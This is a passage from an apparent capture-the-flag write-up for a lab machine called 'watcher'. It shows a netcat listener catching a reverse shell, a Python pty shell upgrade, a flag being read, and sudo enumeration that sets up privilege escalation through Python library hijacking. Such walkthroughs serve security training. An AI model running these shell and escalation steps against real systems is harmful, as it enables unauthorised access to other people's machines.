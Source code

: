 One minute later, we have a shell and we can read the flag:

~~~
kali@kali:/data/vpn$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.85.119] 53844
bash: cannot set terminal process group (3019): Inappropriate ioctl for device
bash: no job control in this shell
mat@watcher:~$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
mat@watcher:~$ cd /home/mat
cd /home/mat
mat@watcher:~$ cat flag_5.txt
cat flag_5.txt
FLAG{live_by_the_cow_die_by_the_cow}
~~~

Flag #5: `FLAG{live_by_the_cow_die_by_the_cow}`

# Flag 6

*Hint: https://book.hacktricks.xyz/linux-unix/privilege-escalation#python-library-hijacking*

Flag #6 is owned by `will`:

~~~
mat@watcher:~$ find / -type f -name flag_6.txt -exec ls -l {} + 2>/dev/null
find / -type f -name flag_6.txt -exec ls -l {} + 2>/dev/null
-rw------- 1 will will 41 Dec  3 01:58 /home/will/flag_6.txt
~~~

The note in `mat`'s home tells us about scripts we can run with `sudo`:

~~~
mat@watcher:~$ cat /home/mat/note.txt
cat /home/mat/note.txt
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
~~~

Let's check our privileges:

~~~
mat@watcher:~$ sudo -l
sudo -l
Matching Defaults entries for mat on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
~~~
